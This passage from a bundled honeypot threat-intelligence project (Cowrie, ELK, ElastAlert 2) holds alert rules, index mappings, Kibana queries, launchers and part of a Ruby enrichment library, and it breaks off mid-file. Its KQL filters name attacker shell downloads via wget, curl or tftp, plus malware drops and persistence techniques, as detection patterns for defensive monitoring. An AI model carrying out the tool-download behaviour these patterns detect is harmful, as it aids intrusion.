          "'Attack origins' and add it to the dashboard (a Markdown panel on the dashboard repeats the steps)."),
    ("p", "**KQL filters for high-severity hunting** (`kibana/kql_filters.txt`; append `and not tags : \"simulated\"` "
          "to ignore demo data):"),
    ("kql_table",),
    ("p", "**Elasticsearch DSL queries** (`kibana/dsl/*.json`, run in Kibana Dev Tools as "
          "`GET honeypot-cowrie-*/_search` followed by the body). Query 2 detects *credential guessing that worked*: "
          "IPs with at least 20 failed logins and at least one success in 24 hours."),
    ("dsl_blocks",),
])

section("reporting", "8. Module 5 - Automated threat-intelligence reporting", [
    ("p", "`tools/generate_report.py` is a modular script with four layers: **query** (builds one aggregation request "
          "plus one comparison request against the previous window), **model** (turns the response into a plain report "
          "dictionary, executive-summary sentences and recommended actions), **renderers** (Markdown, self-contained "
          "HTML, PDF) and **automation** (IOC export and a built-in daily scheduler)."),
    ("bullets", [
        "Window: last 24 hours by default (`--hours`), compared with the previous 24 hours for trend percentages.",
        "Threat level: CRITICAL if any critical event, HIGH if any high-risk event, MEDIUM if any login succeeded, else LOW.",
        "Top IOCs: IPs (with country, ASN, verdict, AbuseIPDB score, tags), malware SHA-256 hashes with VirusTotal "
        "detections and family, payload URLs, HASSH SSH-client fingerprints, credentials, commands, ATT&CK techniques.",
        "Exports: `iocs_*.csv` (type, indicator, events, risk, verdict, context) and `blocklist_ips_*.txt` "
        "(risky IPs only; benign scanners and CDNs are excluded on purpose).",
        "Scheduling: the `reporter` container runs `--daily-at 07:00` in REPORT_TZ; `report.bat` runs it on demand.",
        "Safety: all attacker-controlled text is escaped in HTML and PDF output; the read-only `ti_reader` user is used.",
    ]),
    ("code", "tools/generate_report.py", (1, 60)),
    ("p", "Sample output (generated from the test fixture; a real run uses live data):"),
    ("sample_page",),
])

section("alerting", "9. Alerting with ElastAlert 2", [
    ("p", "ElastAlert 2 is open source and needs no paid licence (Kibana Watcher requires a paid subscription), which "
          "is why it was chosen. Four rules ship in `elastalert/rules/`:"),
    ("table", ["Rule", "Type", "Fires when"], [
        ["bruteforce_spike", "frequency", ">= 40 failed logins from one source IP within 5 minutes"],
        ["login_success_malicious_ip", "any", "a honeypot login succeeds from an IP with ti.verdict = malicious"],
        ["malware_download", "any", "a file is downloaded or uploaded inside the honeypot"],
        ["critical_risk_event", "any", "any event reaches event.risk_score >= 80"],
    ], [2.0, 0.9, 3.1]),
    ("p", "By default alerts are written to the container log and to the ElastAlert writeback index (`logs.bat "
          "elastalert`). To notify people, change the `alert:` list of a rule to an ElastAlert 2 alerter (Slack, "
          "e-mail, Teams, webhook ...). Alert timestamps in the writeback index make Mean Time to Detect measurable."),
    ("code", "elastalert/rules/login_success_malicious_ip.yaml", (1, 28)),
])

section("windows", "10. Windows packaging and compatibility", [
    ("p", "Everything runs in Linux containers, so the Windows requirement is Docker Desktop with the WSL 2 backend. "
          "The launchers use only cmd.exe and Windows PowerShell 5.1 (present on every Windows 10/11); all Python and "
          "Ruby work happens inside containers, so the host needs no Python, Ruby or Git."),
    ("table", ["Windows version", "Result", "How"], [
        ["Windows 11 (23H2+), 64-bit", "Supported", "Docker Desktop + WSL 2, double-click start.bat"],
        ["Windows 10 22H2 (build 19045), 64-bit", "Supported", "Docker Desktop + WSL 2, double-click start.bat"],
        ["Windows Home editions", "Normally works", "WSL 2 backend runs Linux containers; if Docker refuses to install, use the Linux-host route"],
        ["Windows 7 / 8 / 8.1 / 10 < 22H2 / 32-bit", "Not supported by Docker", "Run the stack on a Linux host; use any browser (SSH tunnel) from Windows"],
        ["Windows Server 2016-2022", "Docker Desktop not supported", "Same Linux-host route (or Docker Engine inside WSL 2 - untested)"],
        ["Windows on ARM", "Untested", "Docker lists it as Early Access"],
    ], [2.2, 1.4, 2.4]),
    ("p", "Source of the Docker Desktop requirements: Docker's published system-requirements page (checked "
          "November 2026). They can change; verify before relying on them. These results come from reading the "
          "requirements, not from running the project on each Windows version."),
    ("bullets", [
        "`start.bat` -> `scripts/start.ps1`: checks Docker, port conflicts and compose v2, generates `.env` secrets "
        "(`setup.ps1`, cryptographic RNG, alphanumeric only), renders the ElastAlert config, builds and starts the "
        "stack, waits for Kibana, reports whether the dashboard import succeeded.",
        "`stop.bat`, `status.bat`, `logs.bat`, `simulate.bat`, `report.bat`, `live-test.bat`, `reset.bat` (asks for YES).",
        "All launcher files are ASCII-only (PowerShell 5.1 mis-reads UTF-8 without a BOM) and are delivered with "
        "Windows (CRLF) line endings; config/code files keep Linux (LF) endings, enforced by `.gitattributes`.",
        "`scripts/setup.sh` is the Linux/macOS twin of `setup.ps1` (tested), for servers and VPS deployments.",
    ]),
])

section("testing", "11. Testing and validation", [
    ("p", "Counts below are measured when this document is built."),
    ("table", ["Check", "Result"], [
        ["Python unit + consistency tests (report, renderers, queries, config)", "{TESTS_PY} tests, all passing"],
        ["Ruby tests for the enrichment library (classification, cache, quotas, scoring, failures)", "{TESTS_RB} tests, all passing"],
        ["docker compose config (schema validation with a generated .env)", "valid"],
        ["End-to-end enrichment on simulated traffic (seed 42)", "6,006 events, 241 attackers, 222 critical events, 88 malicious IPs; all 3 alert rules would fire"],
        ["setup.sh: 8 secrets, correct lengths, idempotent, mode 600", "pass"],
        ["Mutation check: re-introducing the invalid http-filter option", "regression tests fail as intended"],
    ], [4.2, 1.8]),
    ("p", "**What the consistency tests catch:** a variable used by compose but never generated by setup; a dashboard "
          "field missing from the index template; aggregation on a text field; a Logstash call to a missing Ruby "
          "method; an unsupported plugin option; a honeypot attached to the ELK network; a published port that is not "
          "localhost-only; a hard-coded secret; truncated batch files; non-ASCII characters in launchers."),
    ("note", "Not verified here: starting the containers together, running the PowerShell/cmd scripts on Windows, "
             "importing the dashboard into a live Kibana, and Cowrie's environment-variable names/log paths (taken from "
             "its documentation and defaults). HOW_TO_RUN.txt explains how to check each of these in minutes."),
])

section("security", "12. Security review", [
    ("table", ["Control", "Status"], [
        ["API keys from environment only; never in config files", "Done (tested)"],
        ["Honeypot isolated on its own network, read-only log hand-off", "Done (tested)"],
        ["Container hardening: cap_drop ALL, no-new-privileges, limits", "Done (tested)"],
        ["Elasticsearch security on; least-privilege users per component", "Done"],
        ["Admin UIs bound to 127.0.0.1", "Done (tested)"],
        ["Secrets generated randomly, .env and elastalert/config.yaml git-ignored", "Done (tested)"],
        ["Escaping of attacker-controlled text in HTML/PDF reports", "Done (tested)"],
        ["Outbound-only lookups; hashes not files; private/simulated IPs never sent", "Done (tested)"],
        ["Cowrie image tag `latest`", "Residual: pin to a digest for production"],
        ["Honeypot container has outbound internet (needed to fetch malware samples)", "Residual: restrict with a firewall on a VPS"],
        ["Plain HTTP between containers on the private network", "Residual: enable TLS for multi-host setups"],
        ["Secrets stored in plain text in .env", "Residual: use Docker secrets / a vault for shared deployments"],
    ], [4.4, 1.6]),
])

section("learnings", "13. Module 6 - Key learnings and portfolio highlights", [
    ("p", "**Threat intelligence**"),
    ("bullets", [
        "IOC lifecycle: collect (honeypot) -> enrich -> score -> distribute (IOC CSV, blocklist, alerts) -> age out. "
        "Here the cache TTL (24 h) and index retention (30 d) are the ageing mechanism; IPs are recycled, so a blocklist "
        "without expiry becomes a false-positive generator.",
        "False-positive reduction: whitelisted/CDN/search-engine sources are marked benign, capped at risk 20 and "
        "excluded from the blocklist; the score is the maximum across independent providers; failed lookups are "
        "'unknown', never 'clean'; simulated data is always labelled.",
        "Context turns indicators into intelligence: ATT&CK technique tags, HASSH client fingerprints, payload URLs and "
        "file hashes describe the attacker's tooling and persist longer than a rotating IP address.",
        "Honest confidence: every claim in a report traces back to a field, a provider and a score.",
    ]),
    ("p", "**Data visualisation (actionable SOC metrics)**"),
    ("bullets", [
        "Velocity and unique-IP count together separate a campaign (many IPs) from one noisy host (many events).",
        "The funnel failed login -> successful login -> commands -> malware download shows how far attackers get.",
        "Top ASNs support network-level blocking; top credentials support policy (ban default passwords, use keys/MFA).",
        "Top commands and ATT&CK techniques feed detection engineering; rare-command hunting finds new tooling.",
        "Each panel is tied to a decision; no vanity metrics. Demo data is labelled so screenshots stay honest.",
    ]),
    ("p", "**Automation (reducing Mean Time to Detect / Respond)**"),
    ("bullets", [
        "Detection: ElastAlert rules evaluate new events continuously, so detection no longer waits for an analyst to "
        "open a dashboard. MTTD is measurable as (alert time - first malicious event time) from the writeback index.",
        "Response: enrichment happens at ingest, so the analyst starts with verdict, score, geography and ATT&CK context "
        "instead of pivoting across four websites; the blocklist is ready-made for firewall/EDR import.",
        "Reporting: the daily report removes manual status writing and gives management a stable, comparable summary.",
        "Caution for interviews: these are design properties. No MTTD/MTTR improvement has been measured; run the "
        "honeypot for a few weeks on a VPS and report real numbers.",
    ]),
    ("p", "**How to present it** (accurate, portfolio-ready lines)"),
    ("bullets", [
        "Designed and built a containerised honeypot-to-dashboard threat-intelligence pipeline (Cowrie, Filebeat, "
        "Logstash, Elasticsearch, Kibana) with GeoIP/ASN and AbuseIPDB/OTX/VirusTotal enrichment.",
        "Implemented quota-aware, cached threat-feed lookups and a transparent risk-scoring model with ATT&CK mapping "
        "and false-positive suppression for benign scanners.",
        "Automated daily PDF/HTML/Markdown intelligence reports, IOC CSV and IP blocklists, plus ElastAlert detections.",
        "Hardened the lab: isolated honeypot network, least-privilege Elasticsearch roles, secrets via environment, "
        "and an automated test suite with cross-file consistency checks.",
        "Say clearly that the demo data is simulated; show your own screenshots and real numbers from a VPS run.",
    ]),
])

section("limits", "14. Limitations and next steps", [
    ("bullets", [
        "Cowrie is medium-interaction: skilled attackers may recognise it; add Dionaea or T-Pot for more protocols.",
        "GeoIP is approximate (city level is often wrong); free API tiers limit coverage to the busiest IPs first.",
        "Single-node Elasticsearch: no high availability; use for lab and small deployments.",
        "Add TLS between components, pin image digests, restrict honeypot egress, use Docker secrets.",
        "Export STIX 2.1 / push IOCs to MISP or a TAXII server; add Slack/e-mail alerters.",
        "Query tests against a real Elasticsearch (for example with Testcontainers) in CI.",
        "Measure MTTD/MTTR from the ElastAlert writeback index after a real collection period.",
    ]),
])

GITHUB_SECTIONS = [
    ("github", "15. Publishing this project on GitHub", [
        ("p", "Create an empty repository on github.com (no README, no .gitignore), then run in the project folder "
              "(Git for Windows or any Git):"),
        ("pre", 'git init\n'
                'git add .\n'
                'git status                       (confirm .env and elastalert/config.yaml are NOT listed)\n'
                'git commit -m "Threat Intelligence Dashboard: Cowrie + ELK + threat-feed enrichment"\n'
                'git branch -M main\n'
                'git remote add origin https://github.com/<your-user>/threat-intelligence-dashboard.git\n'
                'git push -u origin main'),
        ("bullets", [
            "Suggested repository description: Honeypot threat-intelligence dashboard - Cowrie, Filebeat, Logstash "
            "(GeoIP, AbuseIPDB, OTX, VirusTotal), Elasticsearch, Kibana, ElastAlert 2, automated PDF reports. "
            "Runs on Windows via Docker Desktop.",
            "Suggested topics: honeypot, cowrie, elk-stack, threat-intelligence, soc, siem, logstash, kibana, "
            "elastalert, mitre-attack, docker, python, cybersecurity, blue-team.",
            "Never commit .env or elastalert/config.yaml (both are in .gitignore). If a key was ever committed, "
            "revoke it at the provider, then rewrite history.",
            "Add your own Kibana screenshots (from a real or clearly labelled demo run) to a docs/screenshots folder "
            "and reference them in README.md.",
            "Choose a licence deliberately (for example MIT) and add a LICENSE file; this package ships none.",
            "Third-party components keep their own licences (Elastic stack, Cowrie, ElastAlert 2, MaxMind GeoLite2 "
            "terms apply to the downloaded databases).",
        ]),
    ]),
]
------------------------------------------------------------------------------
END OF FILE: docs/report_content.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: elastalert/config.yaml.template   (20 lines)
------------------------------------------------------------------------------
# ElastAlert2 global config. scripts\setup.ps1 renders this to config.yaml (git-ignored),
# injecting the generated password - the secret is never stored in this template.
rules_folder: /opt/elastalert/rules
scan_subdirectories: false

run_every:
  seconds: 30
buffer_time:
  minutes: 5

es_host: elasticsearch
es_port: 9200
use_ssl: false
verify_certs: false
es_username: ti_elastalert
es_password: __ES_PASSWORD__

writeback_index: elastalert_status
alert_time_limit:
  days: 2
------------------------------------------------------------------------------
END OF FILE: elastalert/config.yaml.template
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: elastalert/rules/bruteforce_spike.yaml   (28 lines)
------------------------------------------------------------------------------
name: "TI - SSH/Telnet brute-force burst from a single IP"
type: frequency
index: honeypot-cowrie-*
timestamp_field: "@timestamp"
timestamp_type: iso
num_events: 40
timeframe:
  minutes: 5
filter:
  - term:
      event.action: "cowrie.login.failed"
query_key: source.ip
realert:
  hours: 1
alert:
  - debug
alert_subject: "[Honeypot] Brute-force burst from {0}"
alert_subject_args:
  - source.ip
alert_text_type: alert_text_only
alert_text: |
  {0} made at least 40 failed logins within 5 minutes ({1}, {2}).
  Threat-intel verdict: {3}
alert_text_args:
  - source.ip
  - source.geo.country_name
  - source.as.organization.name
  - ti.verdict
------------------------------------------------------------------------------
END OF FILE: elastalert/rules/bruteforce_spike.yaml
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: elastalert/rules/critical_risk_event.yaml   (33 lines)
------------------------------------------------------------------------------
name: "TI - Critical risk event (score >= 80)"
type: any
index: honeypot-cowrie-*
timestamp_field: "@timestamp"
timestamp_type: iso
filter:
  - range:
      event.risk_score:
        gte: 80
query_key: source.ip
realert:
  minutes: 30
alert:
  - debug
alert_subject: "[Honeypot] CRITICAL risk event from {0}"
alert_subject_args:
  - source.ip
alert_text_type: alert_text_only
alert_text: |
  Source IP   : {0} ({1}, {2})
  Event       : {3}
  Risk score  : {4}  (TI verdict: {5}, AbuseIPDB confidence: {6})
  Command/URL : {7} {8}
alert_text_args:
  - source.ip
  - source.geo.country_name
  - source.as.organization.name
  - event.action
  - event.risk_score
  - ti.verdict
  - ti.abuseipdb.confidence_score
  - cowrie.input
  - cowrie.url
------------------------------------------------------------------------------
END OF FILE: elastalert/rules/critical_risk_event.yaml
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: elastalert/rules/malware_download.yaml   (32 lines)
------------------------------------------------------------------------------
name: "TI - Malware downloaded by attacker"
type: any
index: honeypot-cowrie-*
timestamp_field: "@timestamp"
timestamp_type: iso
filter:
  - term:
      event.action: "cowrie.session.file_download"
query_key: cowrie.shasum
realert:
  minutes: 30
alert:
  - debug
alert_subject: "[Honeypot] Malware sample captured from {0}"
alert_subject_args:
  - source.ip
alert_text_type: alert_text_only
alert_text: |
  An attacker downloaded a payload inside the honeypot.
  Source IP : {0} ({1})
  URL       : {2}
  SHA-256   : {3}
  VT detections: {4}   Family: {5}
  Risk score: {6}
alert_text_args:
  - source.ip
  - source.geo.country_name
  - cowrie.url
  - cowrie.shasum
  - ti.file.malicious
  - ti.file.threat_label
  - event.risk_score
------------------------------------------------------------------------------
END OF FILE: elastalert/rules/malware_download.yaml
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: elasticsearch/index-template.json   (172 lines)
------------------------------------------------------------------------------
{
  "index_patterns": ["honeypot-cowrie-*"],
  "priority": 200,
  "_meta": { "description": "Cowrie honeypot events enriched with GeoIP and threat intelligence" },
  "template": {
    "settings": {
      "number_of_shards": 1,
      "number_of_replicas": 0,
      "index.lifecycle.name": "honeypot-retention",
      "index.refresh_interval": "5s",
      "index.mapping.total_fields.limit": 2000
    },
    "mappings": {
      "dynamic_templates": [
        {
          "strings_as_keywords": {
            "match_mapping_type": "string",
            "mapping": { "type": "keyword", "ignore_above": 1024 }
          }
        }
      ],
      "properties": {
        "@timestamp": { "type": "date" },
        "message": { "type": "text" },
        "tags": { "type": "keyword" },
        "event": {
          "properties": {
            "action": { "type": "keyword" },
            "dataset": { "type": "keyword" },
            "module": { "type": "keyword" },
            "outcome": { "type": "keyword" },
            "severity": { "type": "integer" },
            "risk_score": { "type": "integer" },
            "risk_level": { "type": "keyword" }
          }
        },
        "source": {
          "properties": {
            "ip": { "type": "ip" },
            "port": { "type": "integer" },
            "public": { "type": "boolean" },
            "geo": {
              "properties": {
                "location": { "type": "geo_point" },
                "country_name": { "type": "keyword" },
                "country_iso_code": { "type": "keyword" },
                "continent_code": { "type": "keyword" },
                "region_name": { "type": "keyword" },
                "city_name": { "type": "keyword" },
                "timezone": { "type": "keyword" }
              }
            },
            "as": {
              "properties": {
                "number": { "type": "long" },
                "organization": { "properties": { "name": { "type": "keyword" } } }
              }
            }
          }
        },
        "destination": {
          "properties": {
            "ip": { "type": "ip" },
            "port": { "type": "integer" }
          }
        },
        "network": {
          "properties": {
            "protocol": { "type": "keyword" },
            "transport": { "type": "keyword" }
          }
        },
        "observer": {
          "properties": {
            "name": { "type": "keyword" },
            "type": { "type": "keyword" }
          }
        },
        "cowrie": {
          "properties": {
            "session": { "type": "keyword" },
            "username": { "type": "keyword" },
            "password": { "type": "keyword" },
            "credential": { "type": "keyword" },
            "input": {
              "type": "keyword",
              "ignore_above": 1024,
              "fields": { "text": { "type": "text" } }
            },
            "url": { "type": "keyword" },
            "shasum": { "type": "keyword" },
            "outfile": { "type": "keyword" },
            "hassh": { "type": "keyword" },
            "hassh_algorithms": { "type": "keyword", "index": false, "doc_values": false },
            "client_version": { "type": "keyword" },
            "duration": { "type": "float" },
            "ttylog": { "type": "keyword" },
            "arch": { "type": "keyword" },
            "size": { "type": "long", "ignore_malformed": true }
          }
        },
        "threat": {
          "properties": {
            "technique": {
              "properties": {
                "id": { "type": "keyword" },
                "name": { "type": "keyword" }
              }
            }
          }
        },
        "ti": {
          "properties": {
            "verdict": { "type": "keyword" },
            "score": { "type": "integer" },
            "providers": { "type": "keyword" },
            "enriched_at": { "type": "date" },
            "simulated": { "type": "boolean" },
            "abuseipdb": {
              "properties": {
                "confidence_score": { "type": "integer" },
                "total_reports": { "type": "integer" },
                "distinct_reporters": { "type": "integer" },
                "usage_type": { "type": "keyword" },
                "isp": { "type": "keyword" },
                "domain": { "type": "keyword" },
                "is_tor": { "type": "boolean" },
                "is_whitelisted": { "type": "boolean" },
                "last_reported_at": { "type": "date", "ignore_malformed": true }
              }
            },
            "otx": {
              "properties": {
                "pulse_count": { "type": "integer" },
                "pulse_names": { "type": "keyword" },
                "tags": { "type": "keyword" },
                "malware_families": { "type": "keyword" },
                "reputation": { "type": "integer" }
              }
            },
            "virustotal": {
              "properties": {
                "malicious": { "type": "integer" },
                "suspicious": { "type": "integer" },
                "harmless": { "type": "integer" },
                "undetected": { "type": "integer" },
                "reputation": { "type": "integer" },
                "as_owner": { "type": "keyword" },
                "country": { "type": "keyword" },
                "tags": { "type": "keyword" }
              }
            },
            "file": {
              "properties": {
                "found": { "type": "boolean" },
                "verdict": { "type": "keyword" },
                "malicious": { "type": "integer" },
                "suspicious": { "type": "integer" },
                "undetected": { "type": "integer" },
                "threat_label": { "type": "keyword" },
                "type_description": { "type": "keyword" },
                "size": { "type": "long" },
                "names": { "type": "keyword" },
                "simulated": { "type": "boolean" }
              }
            }
          }
        }
      }
    }
  }
}
------------------------------------------------------------------------------
END OF FILE: elasticsearch/index-template.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/01_critical_events_24h.json   (10 lines)
------------------------------------------------------------------------------
{
  "_comment": "Critical-risk events of the last 24 h, newest first. Run in Kibana Dev Tools: GET honeypot-cowrie-*/_search  <this body>",
  "size": 50,
  "sort": [{"@timestamp": "desc"}],
  "_source": ["@timestamp", "source.ip", "source.geo.country_name", "event.action", "event.risk_score", "cowrie.username", "cowrie.input", "cowrie.url", "ti.verdict"],
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"range": {"event.risk_score": {"gte": 80}}}
  ], "must_not": [{"term": {"tags": "simulated"}}]}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/01_critical_events_24h.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/02_bruteforce_then_success.json   (17 lines)
------------------------------------------------------------------------------
{
  "_comment": "Compromise detection: source IPs with >= 20 failed logins AND at least one success in 24 h (credential guessing that worked).",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"terms": {"event.action": ["cowrie.login.failed", "cowrie.login.success"]}}
  ]}},
  "aggs": {"by_ip": {
    "terms": {"field": "source.ip", "size": 100},
    "aggs": {
      "failed":  {"filter": {"term": {"event.action": "cowrie.login.failed"}}},
      "success": {"filter": {"term": {"event.action": "cowrie.login.success"}}},
      "compromised": {"bucket_selector": {
        "buckets_path": {"f": "failed._count", "s": "success._count"},
        "script": "params.f >= 20 && params.s >= 1"}}
    }}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/02_bruteforce_then_success.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/03_top_malicious_asns.json   (14 lines)
------------------------------------------------------------------------------
{
  "_comment": "Top 10 ASNs hosting 'malicious' sources: event volume, distinct IPs, worst threat-intel score.",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-24h"}}},
    {"term": {"ti.verdict": "malicious"}}
  ]}},
  "aggs": {"asn": {
    "terms": {"field": "source.as.organization.name", "size": 10, "order": {"_count": "desc"}},
    "aggs": {
      "unique_ips": {"cardinality": {"field": "source.ip"}},
      "worst_score": {"max": {"field": "ti.score"}}
    }}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/03_top_malicious_asns.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/04_attack_velocity.json   (11 lines)
------------------------------------------------------------------------------
{
  "_comment": "Attack velocity: events per 5 minutes plus the change vs the previous bucket (spikes = scanning waves / botnet campaigns).",
  "size": 0,
  "query": {"range": {"@timestamp": {"gte": "now-6h"}}},
  "aggs": {"per_5m": {
    "date_histogram": {"field": "@timestamp", "fixed_interval": "5m", "min_doc_count": 0},
    "aggs": {
      "unique_ips": {"cardinality": {"field": "source.ip"}},
      "velocity_change": {"derivative": {"buckets_path": "_count"}}
    }}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/04_attack_velocity.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/05_rare_commands.json   (9 lines)
------------------------------------------------------------------------------
{
  "_comment": "Threat hunting: shell commands seen at most twice in 7 days (novel tooling, new campaigns).",
  "size": 0,
  "query": {"bool": {"filter": [
    {"range": {"@timestamp": {"gte": "now-7d"}}},
    {"term": {"event.action": "cowrie.command.input"}}
  ]}},
  "aggs": {"rare": {"rare_terms": {"field": "cowrie.input", "max_doc_count": 2}}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/05_rare_commands.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/dsl/06_malicious_ips_ioc_feed.json   (15 lines)
------------------------------------------------------------------------------
{
  "_comment": "IOC feed: distinct source IPs ranked by worst risk, excluding benign scanners (false-positive reduction).",
  "size": 0,
  "query": {"bool": {
    "filter": [{"range": {"@timestamp": {"gte": "now-24h"}}}, {"range": {"event.risk_score": {"gte": 60}}}],
    "must_not": [{"term": {"ti.verdict": "benign"}}, {"term": {"tags": "simulated"}}]}},
  "aggs": {"ips": {
    "terms": {"field": "source.ip", "size": 100, "order": {"max_risk": "desc"}},
    "aggs": {
      "max_risk": {"max": {"field": "event.risk_score"}},
      "country": {"terms": {"field": "source.geo.country_name", "size": 1}},
      "first_seen": {"min": {"field": "@timestamp"}},
      "last_seen": {"max": {"field": "@timestamp"}}
    }}}
}
------------------------------------------------------------------------------
END OF FILE: kibana/dsl/06_malicious_ips_ioc_feed.json
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: kibana/kql_filters.txt   (17 lines)
------------------------------------------------------------------------------
# Kibana Query Language (KQL) filters for high-severity hunting.
# Paste the part after the "|" into the Kibana query bar (Discover or any dashboard).
# Format:  name | query          (lines starting with # are comments)
# Add   and not tags : "simulated"   to any query to ignore demo data.
critical_risk_event        | event.risk_score >= 80
high_severity_event        | event.risk_score >= 70
compromised_login          | event.action : "cowrie.login.success" and ti.verdict : "malicious"
post_compromise_commands   | event.action : "cowrie.command.input" and ti.score >= 50
malware_drop               | event.action : ("cowrie.session.file_download" or "cowrie.session.file_upload") and not ti.verdict : "benign"
known_malicious_payload    | ti.file.malicious >= 5
persistence_attempt        | threat.technique.id : ("T1098.004" or "T1053.003")
cryptominer_activity       | threat.technique.id : "T1496"
tool_download_in_shell     | event.action : "cowrie.command.input" and cowrie.input : (*wget* or *curl* or *tftp*)
tor_exit_source            | ti.abuseipdb.is_tor : true
proxy_pivot_attempt        | event.action : "cowrie.direct-tcpip.request"
reported_but_unclassified  | ti.abuseipdb.total_reports >= 10 and not ti.verdict : ("malicious" or "benign")
real_traffic_only          | not tags : "simulated"
------------------------------------------------------------------------------
END OF FILE: kibana/kql_filters.txt
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: live-test.bat   (5 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\live-test.ps1"
pause
------------------------------------------------------------------------------
END OF FILE: live-test.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: logs.bat   (8 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
set SVC=%1
if "%SVC%"=="" set SVC=logstash
echo Showing the last 100 log lines of "%SVC%" (usage: logs.bat cowrie ^| logstash ^| filebeat ^| elasticsearch ^| kibana ^| elastalert ^| reporter)
docker compose logs --tail 100 %SVC%
pause
------------------------------------------------------------------------------
END OF FILE: logs.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: logstash/config/logstash.yml   (9 lines)
------------------------------------------------------------------------------
http.host: "0.0.0.0"
xpack.monitoring.enabled: false
pipeline.workers: 2
pipeline.batch.size: 125
# Persistent queue: events survive an Elasticsearch outage or a Logstash restart.
queue.type: persisted
queue.max_bytes: 1gb
# Managed GeoLite2 City/ASN databases (downloaded + refreshed automatically).
xpack.geoip.downloader.enabled: true
------------------------------------------------------------------------------
END OF FILE: logstash/config/logstash.yml
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: logstash/ruby/ti_lib.rb   (408 lines)
------------------------------------------------------------------------------
# frozen_string_literal: true
#
# ti_lib.rb - threat-intelligence helper library for the Logstash pipeline.
#
# Loaded once per pipeline via the ruby filter `init => "require '...ti_lib.rb'"`
# and called from `code => "TI.xxx(event)"`.  All state (cache, API budgets) is
# process-wide so every pipeline worker shares it.
#
# Responsibilities
#   classify        decide whether a source IP is worth querying (public? simulated?)
#   cache_get       answer from the in-memory TTL cache (saves API quota)
#   budget          per-provider daily / per-minute rate limiting
#   merge           turn raw AbuseIPDB / OTX / VirusTotal JSON into flat ECS-style fields
#   demo            deterministic *synthetic* enrichment for simulated traffic
#   file_*          VirusTotal hash reputation for malware dropped on the honeypot
#   risk            event.severity + event.risk_score (documented formula)
#
# API keys are only ever read from the environment - never hard-coded.

require 'ipaddr'
require 'digest'
require 'json'
require 'time'

module TI
  LOCK       = Mutex.new
  CACHE      = {}
  FILE_CACHE = {}
  BUDGET     = {}

  NON_PUBLIC = %w[
    0.0.0.0/8 10.0.0.0/8 100.64.0.0/10 127.0.0.0/8 169.254.0.0/16 172.16.0.0/12
    192.0.0.0/24 192.0.2.0/24 192.168.0.0/16 198.18.0.0/15 198.51.100.0/24
    203.0.113.0/24 224.0.0.0/3
    ::/128 ::1/128 fc00::/7 fe80::/10 2001:db8::/32 ff00::/8
  ].map { |c| IPAddr.new(c) }.freeze

  # AbuseIPDB usage types that are normally *not* attackers (false-positive reduction)
  BENIGN_USAGE = ['Content Delivery Network', 'Search Engine Spider'].freeze

  # Per-event severity (0-100) by Cowrie event id.
  SEVERITY = {
    'cowrie.session.connect'              => 10,
    'cowrie.client.version'               => 10,
    'cowrie.client.kex'                   => 10,
    'cowrie.client.fingerprint'           => 20,
    'cowrie.client.size'                  => 5,
    'cowrie.session.params'               => 10,
    'cowrie.login.failed'                 => 25,
    'cowrie.login.success'                => 60,
    'cowrie.command.input'                => 70,
    'cowrie.command.failed'               => 50,
    'cowrie.session.file_download'        => 90,
    'cowrie.session.file_download.failed' => 60,
    'cowrie.session.file_upload'          => 90,
    'cowrie.direct-tcpip.request'         => 75,
    'cowrie.direct-tcpip.data'            => 75,
    'cowrie.session.closed'               => 5,
    'cowrie.log.closed'                   => 5
  }.freeze

  PROVIDERS = {
    'abuse'  => { key: 'ABUSEIPDB_API_KEY', bucket: 'abuse', daily: ['ABUSEIPDB_DAILY_LIMIT', 900], per_min: nil },
    'otx'    => { key: 'OTX_API_KEY',       bucket: 'otx',   daily: ['OTX_DAILY_LIMIT', 2000],      per_min: ['OTX_PER_MINUTE', 30] },
    'vt'     => { key: 'VT_API_KEY',        bucket: 'vt',    daily: ['VT_DAILY_LIMIT', 450],        per_min: ['VT_PER_MINUTE', 4] },
    'vtfile' => { key: 'VT_API_KEY',        bucket: 'vt',    daily: ['VT_DAILY_LIMIT', 450],        per_min: ['VT_PER_MINUTE', 4] }
  }.freeze

  DEMO_TAGS = %w[ssh-bruteforce scanner botnet mirai cryptominer tor-exit malware-distribution
                 credential-stuffing iot-botnet].freeze

  module_function

  # ---------------------------------------------------------------- helpers
  def env_int(name, default)
    v = ENV[name].to_s.strip
    v.empty? ? default : v.to_i
  end

  def key_present?(provider)
    !ENV[PROVIDERS.fetch(provider)[:key]].to_s.strip.empty?
  end

  def public_ip?(str)
    ip = IPAddr.new(str.to_s)
    ip = ip.native if ip.ipv6? && ip.ipv4_mapped?
    NON_PUBLIC.none? { |net| net.family == ip.family && net.include?(ip) }
  rescue IPAddr::Error, ArgumentError
    false
  end

  # The http filter stores the response body in the target field.  Depending on the plugin
  # version / content-type handling that is either an already-decoded Hash or the raw JSON
